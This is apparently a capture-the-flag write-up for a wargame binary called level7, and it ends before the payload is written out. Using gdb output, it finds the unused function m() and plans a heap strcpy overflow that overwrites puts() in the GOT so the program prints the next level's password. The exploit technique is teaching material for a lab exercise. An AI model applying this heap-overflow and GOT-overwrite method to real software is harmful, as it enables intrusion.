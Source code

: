 ## level7

The `level7` expects at least two arguments otherwise it will crash. There are two functions, `main()` and `m()` and `m()` is naver called from `main()` we can see it using:
```
(gdb) info functions

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m                      <-----------------
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```
Many of those functions are from main because the `m()` functions is a relly short one
```
0x080484f4 <+0>:	push   ebp
0x080484f5 <+1>:	mov    ebp,esp
0x080484f7 <+3>:	sub    esp,0x18
0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
0x08048501 <+13>:	call   0x80483d0 <time@plt>
0x08048506 <+18>:	mov    edx,0x80486e0
0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
0x08048517 <+35>:	mov    DWORD PTR [esp],edx
0x0804851a <+38>:	call   0x80483b0 <printf@plt>
0x0804851f <+43>:	leave
0x08048520 <+44>:	ret
```
Disassembling `main()` we see four calls to `malloc()`, two calls to `strcpy()` *(we know `strpcy()` is vulnerable)*, one call to `fopen()`, one call to `fgets()` and one last call to `puts()`. <br> Every call to `malloc()` is made with an `0x8 bytes`.<br> Both `strcpy()` are taking the arguments as it's seconde parameter `strcpy(*dst, argv[1]) - strcpy(*dst, argv[2])` *(that is the reason it will crash if less than two parameters is passed)*
```
~$ gdb -q level7
b *0x080485a0
b *0x080485bd
(gdb) r
Breakpoint 1, 0x080485a0 in main ()
x/s $edx
0xbffff8c3:	 "AAA"
(gdb) r
Breakpoint 2, 0x080485bd in main ()
x/s $edx
0xbffff8c7:	 "BBB"
```

We can use the first `strcpy(*dest, 20 * 'A' + 08049928)` to overflow  and overwrite the  __address__ *(first argument passed to the second `strcpy(*dest <--, *src)`)* and if we place the __address__ of the `GOT` *(yes the same strategy as in `level5`)* of the function  `puts()` and we place  the __address__ of function `m()` to be passed as argument to the second `strcpy()` this function will execute and we will get our flag.<br>
In the `main()` as already said there will be 4 `malloc()` and the `strcpy()` will copy what we entered as first argument to the first __address__ return by `malloc()` and the second argument will be copied to the last __address__ returned by `malloc()` there are also a call to `fopen()` right after the last `strcpy()` and if we examine one __address__ just before the call we see what the function is trying to open <br>
```
0x080485c7 <+166>:	mov    eax,0x80486eb
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
```
From this we know the program is opening the file that contains our *flag* we just have to wait to it to open the file and call `fgets()` right after and store this value in a global variable <br>
`0x080485e4 <+195>:	mov    DWORD PTR [esp],0x804996` <br> and this same variable is passed to `printf()` in the `m()` program that is never called, check the `m()` function above and you can see the same address being passed to `printf()` and four our happiness just before the `main()` funtions returns there's a call to `puts()` coincidence ?
So our goal here is to modify the address of the `GOT` table that contains the __address__ of `puts()` and place the __address__ of the `m()` functions instead so before returning from `main()` the program will call the `puts()` functions from the this modified __address__ and will call the function we want.<br>
Let's get the _offset_ and prepare the _payload_
```
(gdb) r AAAAAAAAAAAAAAAAAAAAA BBBBBB
Breakpoint 1, 0x080485a0 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080485bd in main ()
(gdb) x/30xw $esp
0xbffff6a0:	0x08040041	0xbffff8c4	0xb7fd0ff4	0xb7e5ee55
0xbffff6b0:	0xb7fed280	0x00000000	0x0804a028	0x0804a008
0xbffff6c0:	0x08048610	0x00000000	0x00000000	0xb7e454d3
0xbffff6d0:	0x00000003	0xbffff764	0xbffff774	0xb7fdc858
0xbffff6e0:	0x00000000	0xbffff71c	0xbffff774	0x00000000
0xbffff6f0:	0x0804825c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff700:	0x00000000	0xb2243554	0x8560b144	0x00000000
0xbffff710:	0x00000000	0x00000000
```
As we can see passing 'A' * 21 we overwrote by `one byte` the __address__ *0x08040041* so we know our *offset is 20*, build the *payload*<br>
